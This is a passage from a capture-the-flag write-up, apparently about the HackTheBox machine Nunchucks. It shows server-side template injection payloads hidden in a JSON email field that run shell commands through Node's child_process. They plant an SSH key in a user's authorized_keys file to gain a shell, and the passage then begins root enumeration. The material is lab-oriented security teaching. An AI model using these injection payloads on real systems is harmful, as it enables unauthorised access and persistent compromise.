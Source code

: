 [![image-20211022143201046](https://0xdfimages.gitlab.io/img/image-20211022143201046.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211022143201046.png)

### SSH Key

To get a shell, I’ll write my SSH key into `/home/david/.ssh/authorized_keys`. First create the directory:

```

{"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkdir /home/david/.ssh')\")()}}@htb.htb"}

```

Now add my public key:

```

{"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing > /home/david/.ssh/authorized_keys')\")()}}@htb.htb"}

```

Next set the permissions to 600:

```

{"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('chmod 600 /home/david/.ssh/authorized_keys')\")()}}@htb.htb"}

```

And now I can connect over SSH:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen david@nunchucks.htb
...[snip]...
david@nunchucks:~$

```

## Shell as root

### Enumeration

There’s no obvious `sudo` abilities or interesting SetUID/SetGID binaries.

There is an interesting file in `/opt`:

```

david@nunchucks:/opt$ ls -l
total 8
-rwxr-xr-x 1 root root  838 Sep  1 12:53 backup.pl
drwxr-xr-x 2 root root 4096 Sep 26 01:18 web_backups

```
